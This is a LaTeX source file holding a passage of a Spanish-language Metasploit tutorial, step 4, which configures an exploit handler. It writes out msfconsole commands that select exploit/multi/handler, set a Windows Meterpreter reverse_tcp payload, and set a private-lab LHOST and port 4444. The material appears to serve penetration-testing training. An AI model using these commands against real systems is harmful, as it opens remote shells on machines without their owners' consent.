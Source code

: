 \documentclass[
  jou,
  floatsintext,
  longtable,
  a4paper,
  nolmodern,
  notxfonts,
  notimes,
  12pt,
  colorlinks=true,linkcolor=blue,citecolor=blue,urlcolor=blue]{apa7}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\begin{document}
La opción \texttt{-q} es para iniciar Metasploit en modo silencioso.

\section{Paso 4: Configurar el Exploit
Handler}\label{paso-4-configurar-el-exploit-handler}

En la consola de Metasploit, seguimos estos pasos:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  \textbf{Seleccionar el handler}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ use exploit/multi/handler}
\end{Highlighting}
\end{Shaded}

  Esto indica que usaremos el módulo handler para gestionar la conexión
  entrante.
\item
  \textbf{Configurar el payload}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set payload windows/x64/meterpreter/reverse\_tcp}
\end{Highlighting}
\end{Shaded}
\item
  \textbf{Establecer el LHOST y LPORT}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set lhost 192.168.122.152}
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set lport 4444}
\end{Highlighting}
\end{Shaded}
\item
  \textbf{Verificar las opciones}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ show options}
\end{Highlighting}
\end{Shaded}

  Esto muestra todas las opciones configuradas para asegurar que todo
  esté correcto.
\end{enumerate}
\end{document}
